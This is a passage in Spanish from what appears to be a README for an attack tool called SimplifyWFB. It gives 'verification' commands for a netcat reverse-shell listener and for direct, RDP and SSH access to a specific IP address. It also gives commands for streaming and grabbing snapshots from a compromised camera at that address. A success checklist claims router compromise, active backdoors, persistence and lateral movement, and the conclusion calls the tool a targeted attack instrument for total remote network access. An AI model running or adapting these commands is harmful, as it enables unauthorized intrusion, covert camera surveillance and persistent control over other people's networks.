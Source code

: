 ## Comandos de Verificación

### Acceso Remoto
```bash
# Reverse Shell
nc -lvp 4444

# Conexión directa
nc 212.95.62.135 4444

# RDP (si se compromete Windows)
rdesktop 212.95.62.135:33389

# SSH (si se compromete Linux)
ssh user@212.95.62.135 -p 22222
```

### Verificación de Cámara
```bash
# Streaming en tiempo real
vlc http://212.95.62.135:8080/video.mjpg

# Captura de imagen
wget http://212.95.62.135:8080/snapshot.cgi
```

## Métricas de Éxito

### Objetivos Primarios
- ✅ **Router comprometido**: Acceso administrativo
- ✅ **Cámara accedida**: Streaming y control
- ✅ **Port forwarding**: Acceso remoto configurado
- ✅ **Backdoors activos**: Persistencia garantizada

### Objetivos Secundarios
- ✅ **Sistemas internos**: Compromiso lateral
- ✅ **VPN establecida**: Control total de red
- ✅ **Evidencia capturada**: Screenshots y video
- ✅ **Persistencia**: Sobrevive reinicios

## Conclusión

Las mejoras implementadas transforman SimplifyWFB de una herramienta de escaneo general a un **instrumento de ataque dirigido y de alta precisión**. El enfoque estratégico en objetivos de alto valor, combinado con credenciales específicas y port forwarding inteligente, maximiza las probabilidades de éxito en un solo intento.

**El objetivo principal de acceso total remoto a la red es completamente alcanzable** con estas mejoras, replicando efectivamente la presencia física en la red objetivo.
